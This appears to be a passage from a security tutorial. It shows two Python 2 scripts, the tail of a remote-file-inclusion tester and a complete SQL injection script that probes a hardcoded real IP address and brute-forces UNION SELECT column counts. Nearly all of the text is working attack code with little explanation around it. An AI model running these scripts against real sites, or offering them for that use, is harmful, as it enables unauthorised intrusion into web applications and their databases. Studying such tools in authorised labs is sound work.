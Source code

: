 print "\n==> Testing for RFI vulns.."
TARGET = TARGET.split("=")[0]+"="+RFIVULN ## URL MANUPLIATION
try:
    source = urllib2.urlopen(TARGET).read() ## WEB REQUEST
except urllib2.URLError, e:
    print "$$$ We had an Error:",e
    sys.exit(0)
if re.search("Hello world",source): ## SEARCH FOR TEXT IN SOURCE
    print "!! => RFI Found:",TARGET
    
print "\nScan Complete\n" ## DONE

--------------------------------




2. Simple SQL Injection 


vi sqli.py
--------------------------------
#!/usr/bin/env python
print "\n### PHP SQLi Detector ###"
import urllib2,re,sys

TARGET = "http://54.172.112.249/acre2.php?lap=acer"

SQLi = "%27"
SQLiError = "You have an error in your SQL"
myNameInHex = "0x6a6f65"
myName = 'joe'

print "==> Testing for SQLi Error Vuln..."
URL = TARGET+SQLi
try:
	source = urllib2.urlopen(URL).read() ## WEB REQUEST
except urllib2.URLError, e:
	print "$$$ We had an Error\n",e
	sys.exit(0)
if re.search(SQLiError,source): ## SEARCH FOR ERROR IN PAGE
	print "!! ==> SQLi Found:",TARGET+SQLi
	print "## ==> Bruting NULL column...",
URL = TARGET+SQLi+"%20UNION%20SELECT%20"+myNameInHex ## BUILD OUR SQLi STATEMENT
for x in xrange(1,10):
	if x > 1:
		URL = URL+","
		URL = URL+myNameInHex
		print x,
		print URL
		try:
			source = urllib2.urlopen((URL+"--%20j")).read() ## WEB REQUEST
		except urllib2.URLError, e:
			print "$$$ We had an Error\n",e
			sys.exit(0)
		if re.search(myName, source): ## SEARCH FOR UNENCODED NULL WORD
			print "\n!! ==> Null Column Found:",URL+"--"
			break
else:
	print "** ==> No SQLi Found!"
print "\nScan Complete\n"
--------------------------------
